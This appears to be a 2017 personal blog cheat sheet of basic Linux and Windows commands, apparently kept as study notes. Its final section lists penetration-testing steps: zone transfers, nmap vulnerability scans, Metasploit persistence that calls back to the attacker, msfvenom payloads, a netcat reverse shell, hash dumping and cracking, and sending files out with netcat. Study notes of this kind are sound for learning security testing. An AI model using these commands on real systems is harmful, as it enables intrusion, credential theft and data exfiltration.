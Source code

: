 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
	<strong>
		<li><code>C:\&gr; &lt;command&gr; /? </code></li>
		<li><code>root@kl~# &lt;command&gr; -h </code></li>
		<li><code>root@kl~# &lt;command&gr; --help </code></li>
		<li><code>root@kl~# man &lt;command&gr; </code></li>
		<li><code>root@kl~# apropos </code></li>
		<li><code>root@kl~# history </code></li>
		<li><code>root@kl~# hostname</code></li>
		<li><code>root@kl~# sudo </code></li>
		<li><code>root@kl~# whoami </code></li>
	</strong>
			<ul>
				<li>(print current user id and name)</li>	
			</ul>
	<strong>
		<li><code>root@kl~# date </code></li> 
		<li><code>C:\>  chdir </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pwd </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
	<strong>
		<li><code>root@kl~# jobs </code></li>
	</strong>
			<ul>
				<li>(list cronjobs)</li>
			</ul>
	<strong>
		<li><code>root@kl~# kill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pkill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>	
		<li><code> root@kl~# ps –aef </code></li>
	</strong>
			<ul>
				<li>(list processes status)</li>
			</ul>
	<strong>
		<li><code>C:\ tasklist </code></li>
	</strong>
</ul>

<h2>Files</h2>
<ul>
	<li><code>root@kl~# cp &lt;src&gt; &lt;dst&gr; </code></li>
		<ul>		
			<li>(copy)</li>
		</ul>
	<li><code>C:\> copy  &lt;src&gt; &lt;dst&gr; </code></li>
	<li><code>root@kl~# clear </code></li>
	<li><code>C:\> cls </code></li>
	<li><code>C:\> dir </code></li>
	<li><code>root@kl~# echo &lt;message&gr; </code></li>
		<ul>
			<li>(print to screen)</li>
		</ul>		
	<li><code>root@kl~# find –iname &lt;file&gr; </code></li>
	<li><code>C:\> findstr /i /s <string> *.txt </code></li>
		<ul>
			<li>(like grep for Windows)</li>
		</ul>
	<li><code>root@kl~# file </code></li>
		<ul>
			<li>(determine file type)</li>
		</ul>
	<li><code>C:\> dir \ <file> /b /s </code></li>
	<li><code>root@kl~# grep </code></li>
		<ul>
			<li>(search files for matching text)</li>
		</ul>
	<li><code>root@kl~# gzip </code></li>
		<ul>
			<li>(compress or decompress files)</li>
		</ul>
	<li><code>root@kl~# less </code></li>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>	
	<li><code>root@kl~# locate </code></li>
	<li><code>root@kl~# ls </code></li>
	<li><code>root@kl~# mkdir </code></li>
		<ul>
			<li>(new directory)</li>
		</ul>	
	<li><code>root@kl~# mv <src><dst> </code></li>
		<ul>
			<li>(move/rename a file)</li>
		</ul>
	<li><code>C:\>  move <src> <dst> </code></li>
	<li><code>root@kl~# rm </code></li> 
		<ul>
			<li>(remove files)</li>
		</ul>	
	<li><code>C:\> ren </code></li>
		<ul>
			<li>(renames file)</li>
		</ul>		
	<li><code>root@kl~# umask </code></li>
		<ul>
			<li>(users file creation mask)</li>
		</ul>	
	<li><code>root@kl~# uniq </code></li>
		<ul>
			<li>(uniquify files)</li>
		</ul>	
	<li><code>root@kl~# vi/vim </code></li>
		<ul>
			<li>(the best text editor)</li>
		</ul>	
	<li><code>root@kl~# wc </code></li>
		<ul>
			<li>(print byte, word and line counts)</li>
		</ul>	
	<li><code>root@kl~# whereis </code></li>
		<ul>
			<li>(search $path, man pages and source files for program)</li>
		</ul>	
</ul>
		
<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
